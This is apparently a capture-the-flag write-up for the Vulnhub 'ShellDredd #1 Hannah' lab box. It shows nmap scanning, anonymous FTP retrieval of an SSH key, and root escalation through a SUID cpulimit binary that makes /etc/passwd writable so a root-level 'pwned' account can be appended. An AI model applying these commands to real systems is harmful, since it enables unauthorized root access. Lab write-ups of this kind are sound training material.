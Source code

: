 ```yaml
---
title: Vulnhub - OnSystem ShellDredd #1 Hannah
description: My writeup on OnSystem ShellDredd #1 Hannah box.
categories:
 - vulnhub
tags: vulnhub ssh etcpasswd cpulimit
---
```


![](https://i.imgur.com/LeUKXhe.png)

You can find the machine there > [OnSystem ShellDredd #1 Hannah](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/){:target="_blank"}

## Summary

This box was a really easy one, starting off by login into FTP anonymous and grab hannah's SSH private key this will give us a low low-privilege shell. Rooting the box is a bit tricky because the cpulimit SUID doesn't allow us to spawn a root shell directly. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.7 
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-15 12:59 EEST
Nmap scan report for shelldredd.zte.com.cn (192.168.1.7)
Host is up (0.00016s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
61000/tcp open  unknown
MAC Address: 08:00:27:F6:95:7A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.40 seconds
$ nmap -p 21,61000 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-15 12:59 EEST
Nmap scan report for shelldredd.zte.com.cn (192.168.1.7)
Host is up (0.00038s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
```

No web stuff interesting, let's login into FTP since we have anonymous. There we can find a SSH private key.

```
$ ftp $ip
Connected to 192.168.1.7.
220 (vsFTPd 3.0.3)
Name (192.168.1.7:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06 16:56 .
drwxr-xr-x    3 0        115          4096 Aug 06 16:56 ..
drwxr-xr-x    2 0        0            4096 Aug 06 16:54 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            1823 Aug 06 16:54 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
226 Transfer complete.
1823 bytes received in 0.00 secs (2.0599 MB/s)
```

## Shell as hannah

Since the key is in hannah's folder, we have the username and now we can login in.

```
$ chmod 600 id_rsa 
$ ssh -i id_rsa hannah@$ip -p 61000

hannah@ShellDredd:~$ whoami;id
hannah
uid=1000(hannah) gid=1000(hannah) grupos=1000(hannah),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

## Shell as root

Doing the classic enumeration, i found out an interesting SUID.

```
hannah@ShellDredd:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
```

I checked the [gtfobins](https://gtfobins.github.io/gtfobins/cpulimit/){:target="_blank"} page but there is no SUID option.. hm anyway i tried to execute the same command but no luck gaining a root shell.

```
hannah@ShellDredd:~$ cpulimit -l 100 -f /bin/sh
Process 667 detected
$ whoami
hannah
```

But if we run an another command like "whoami" we can get command execution as root!

```
hannah@ShellDredd:~$ cpulimit -l 100 -f whoami
Process 671 detected
root
Child process is finished, exiting...
```

So now i found a way to gain root shell, i'll make `/etc/passwd` writable and we will add a root user in! :sunglasses:

```
hannah@ShellDredd:~$ cpulimit -l 100 -f chmod o+w /etc/passwd
Process 678 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ ls -la /etc/passwd
-rw-r--rw- 1 root root 1541 ago  6 16:43 /etc/passwd
```

Let's generate a password now for the user.

```
$ openssl passwd -6 -salt xyz pwned    
$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1
```

This will be our "payload":

```
pwned:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0::/root:/bin/bash
```

Let's add it in & get root shell! :fire:

```
hannah@ShellDredd:~$ nano /etc/passwd
hannah@ShellDredd:~$ cat /etc/passwd | tail -1
pwned:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0::/root:/bin/bash
hannah@ShellDredd:~$ su - pwned
Contraseña: 
root@ShellDredd:~# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root)
```

Let's read the flags:

```
root@ShellDredd:~# cat root.txt 
yeZCB44MPH2KQwbssgTQ2Nof
root@ShellDredd:~# cat /home/hannah/user.txt 
Gr3mMhbCpuwxCZorqDL3ILPn
```

Enjoyed this privesc! :smile:
